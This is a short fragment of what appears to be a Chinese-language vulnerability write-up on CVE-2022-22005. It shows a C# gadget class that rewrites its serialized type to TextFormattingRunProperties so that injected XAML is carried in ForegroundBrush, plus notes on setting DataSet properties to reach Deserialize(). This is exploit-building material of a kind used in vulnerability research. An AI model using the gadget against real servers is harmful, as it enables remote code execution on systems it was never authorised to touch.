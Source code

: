 ```java
        else
        {
            throw new Exception("Formatter not supported");
        }
    }
}
```

```java
[Serializable]
public class TextFormattingRunPropertiesMarshal : ISerializable
{
    protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
    {

    }

    string _xaml;
    public void GetObjectData(SerializationInfo info, StreamingContext context)
    {
        Type typeTFRP = typeof(TextFormattingRunProperties);
        info.SetType(typeTFRP);
        info.AddValue("ForegroundBrush", _xaml);            
    }
    public TextFormattingRunPropertiesMarshal(string xaml)
    {
        _xaml = xaml;
    }
}
```

我个人调试的时候的理解是，对于`DataSet`中一些属性进行设置了值，比如`DataSet.RemotingFormat`必须要设置为`System.Data.SerializationFormat.Binary`，`DataSet.Tables.Count`设置为`1`，`DataSet.Tables_0`设置为`_fakeTable`，其他值的设置是为了能顺利走到`remotingFormat`的`Deserialize()`位置

![remotingFormat](/img/CVE-2022-22005/remotingFormat.png)
